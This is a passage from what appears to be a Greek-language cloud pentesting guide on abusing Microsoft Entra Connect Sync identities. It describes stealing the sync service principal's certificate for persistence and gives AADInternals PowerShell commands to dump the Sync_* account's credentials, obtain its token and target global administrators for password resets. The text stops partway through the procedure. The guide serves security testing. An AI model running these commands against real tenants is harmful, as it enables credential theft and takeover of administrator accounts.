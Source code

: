 ### Κατάχρηση ConnectSyncProvisioning_ConnectSync\_<id>

Αυτή η εφαρμογή δημιουργείται χωρίς να έχουν ανατεθεί ρόλοι διαχείρισης Entra ID ή Azure. Ωστόσο, έχει τις εξής άδειες API:

- Microsoft Entra AD Synchronization Service
- `ADSynchronization.ReadWrite.All`
- Υπηρεσία επαναφοράς κωδικού πρόσβασης της Microsoft
- `PasswordWriteback.OffboardClient.All`
- `PasswordWriteback.RefreshClient.All`
- `PasswordWriteback.RegisterClientVersion.All`

Αναφέρεται ότι το SP αυτής της εφαρμογής μπορεί να χρησιμοποιηθεί για την εκτέλεση ορισμένων προνομιακών ενεργειών χρησιμοποιώντας μια μη τεκμηριωμένη API, αλλά δεν έχει βρεθεί ακόμη PoC, όσο γνωρίζω.\
Σε κάθε περίπτωση, σκεπτόμενοι ότι αυτό μπορεί να είναι δυνατό, θα ήταν ενδιαφέρον να εξερευνήσουμε περαιτέρω πώς να βρούμε το πιστοποιητικό για να συνδεθούμε ως αυτός ο υπηρεσιακός κύριος και να προσπαθήσουμε να το καταχραστούμε.

Αυτή η [δημοσίευση στο blog](https://posts.specterops.io/update-dumping-entra-connect-sync-credentials-4a9114734f71) κυκλοφόρησε λίγο πριν την αλλαγή από τη χρήση του χρήστη `Sync_*` σε αυτόν τον υπηρεσιακό κύριο, εξήγησε ότι το πιστοποιητικό αποθηκευόταν μέσα στον διακομιστή και ήταν δυνατό να το βρούμε, να δημιουργήσουμε PoP (Proof of Possession) αυτού και γραφικό token, και με αυτό, να μπορέσουμε να προσθέσουμε ένα νέο πιστοποιητικό στον υπηρεσιακό κύριο (διότι ένας **υπηρεσιακός κύριος** μπορεί πάντα να αναθέτει νέα πιστοποιητικά στον εαυτό του) και στη συνέχεια να το χρησιμοποιήσουμε για να διατηρήσουμε την επιμονή ως SP.

Για να εκτελέσουμε αυτές τις ενέργειες, τα εξής εργαλεία είναι διαθέσιμα: [SharpECUtils](https://github.com/hotnops/ECUtilities/tree/main/SharpECUtils).

Από την εμπειρία μου, το πιστοποιητικό δεν αποθηκεύεται πλέον στο μέρος όπου το προηγούμενο εργαλείο το αναζητούσε, και επομένως, το εργαλείο δεν λειτουργεί πλέον. Έτσι, μπορεί να χρειαστεί περαιτέρω έρευνα.

### Κατάχρηση Sync\_\* [ΑΠΟΚΛΕΙΣΜΕΝΟ]

> [!WARNING]
> Προηγουμένως, ένας χρήστης που ονομάζεται `Sync_*` είχε δημιουργηθεί στο Entra ID με πολύ ευαίσθητες άδειες, οι οποίες επέτρεπαν την εκτέλεση προνομιακών ενεργειών όπως η τροποποίηση του κωδικού πρόσβασης οποιουδήποτε χρήστη ή η προσθήκη νέας διαπιστευτηρίου σε έναν υπηρεσιακό κύριο. Ωστόσο, από τον Ιανουάριο του 2025, αυτός ο χρήστης δεν δημιουργείται πλέον από προεπιλογή καθώς τώρα χρησιμοποιείται η Εφαρμογή/SP **`ConnectSyncProvisioning_ConnectSync_<id>`**. Ωστόσο, μπορεί να είναι ακόμη παρών σε ορισμένα περιβάλλοντα, οπότε αξίζει να το ελέγξετε.

Η παραβίαση του λογαριασμού **`Sync_*`** είναι δυνατή για **επαναφορά του κωδικού πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```bash
Install-Module -Name AADInternals -RequiredVersion 0.9.0 # Uninstall-Module AADInternals  if you have a later version
Import-Module AADInternals

# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId
```